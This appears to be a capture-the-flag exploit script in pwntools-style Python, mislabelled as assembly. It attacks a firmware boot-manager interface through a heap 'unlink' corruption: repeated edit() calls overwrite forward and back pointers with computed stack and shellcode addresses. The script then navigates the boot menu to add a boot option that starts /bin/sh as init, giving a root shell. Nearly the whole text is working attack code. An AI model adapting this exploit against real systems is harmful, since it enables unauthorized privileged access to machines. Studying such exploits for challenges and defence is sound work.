 ```assembly

    # poison unlink
    edit("desc", b"aaa")
    edit("name", b"eqqie")
    clear()
    edit("desc", b"bbb")
    edit("name", b"eqqie")

    # x/10gx *(-0x173f5+0x208E0)
    # raw_input()
    

    # calc addr
    ret_addr = stack_leak-0x104ba
    stack_shellcode = ret_addr-0x49
    # part4(BK)
    part4 = p32(ret_addr)
    edit("desc", b"\xaf"*0x78+part4)
    # part3(FD)
    part3 = p32(stack_shellcode)
    for i in range(3, -1, -1):
        tmp = part3+b"\xaf"*i
        edit("desc", b"\xaf"*0x70+tmp)
    # part2
    part2 = b"pfr0"
    for i in range(3, -1, -1):
        tmp = part2+b"\xaf"*i
        edit("desc", b"\xaf"*0x68+tmp)
    # part1
    part1 = b"\xaf"*0x38
    part1 += b"ptal"+b"\xaf"*4
    part1 += p8(0x60)
    for i in range(6, -1, -1):
        tmp = part1+b"\xaf"*i
        edit("desc", tmp)

    # return to UiAPP
    p.sendafter(b">> ", b"4\r")
    print("app_base:", hex(app_base))
    print("ret_addr:", hex(ret_addr))
    print("stack_shellcode:", hex(stack_shellcode))

    p.send(b"\r")

    # Add new boot option
    p.recvuntil(b"Standard PC")
    send_key("down", 3)
    send_key("enter")
    send_key("enter")
    send_key("down")
    send_key("enter")
    send_key("enter")
    send_key("down", 3)
    send_key("enter")
    p.send(b"\rrootshell\r")
    send_key("down")
    p.send(b"\rconsole=ttyS0 initrd=rootfs.img rdinit=/bin/sh quiet\r")
    send_key("down")
    send_key("enter")
    send_key("up")
    send_key("enter")
    send_key("esc")
    send_key("enter")
```